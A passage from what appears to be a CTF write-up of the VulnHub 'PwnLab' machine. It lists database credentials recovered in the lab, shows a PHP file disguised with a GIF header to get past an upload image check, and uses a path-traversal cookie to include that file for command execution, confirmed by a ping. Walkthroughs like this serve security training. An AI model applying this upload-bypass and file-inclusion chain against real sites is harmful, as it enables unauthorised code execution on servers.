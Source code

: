 ### MySQL (port 3306)

Since we have credentials, we can connect to the MySQL database:

![mysql](https://amirr0r.github.io/assets/img/vulnhub/linux/pwnlab/mysql.png)

We gathered three usernames and their passwords:

- **username**: kent; **password**: JWzXuBJJNy
- **username**: mike; **password**: SIfdsTEn6I
- **username**: kane; **password**: iSv5Ym2GRo

## Reverse shell

Using credentials stored in MySQL, we can go back log in and upload some files:

![upload images](https://amirr0r.github.io/assets/img/vulnhub/linux/pwnlab/upload-logged.png)

Due to `getimagesize` PHP function used in `upload.php`, I remembered [hackers-grimoire - file upload bypass](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)

I wanted t

### GIF89a; magic bytes


If we want to pass the image check, we can add a GIF file header to our malicious file. 

I renamed the file as **ping.gif**:

```
GIF89;  
<?php system("ping -c1 192.168.1.171") ?>
```

By the way, the file is now considerate as a legitimate image:

```bash
$ file ping.gif 
ping.gif: GIF image data 8224 x 15370
```

After uploading the image we can retrieve its location by inspecting the source code:

![ping.gif location](https://amirr0r.github.io/assets/img/vulnhub/linux/pwnlab/https://amirr0r.github.io/assets/img/vulnhub/linux/pwnlab-src.png)

Now we have the image PATH: `upload/360ae33efb11f1be532d46e9daf60828.gif`.

### `tcpdump` ping test

In order to ensure that code execution works, we can try to include the image we uploaded by setting `lang cookie` to `../upload/360ae33efb11f1be532d46e9daf60828.gif`:

![lang cookie](https://amirr0r.github.io/assets/img/vulnhub/linux/pwnlab/lang-ping.png)

And it worked, **pwnlab** pinged us (`tcpdump` as proof):

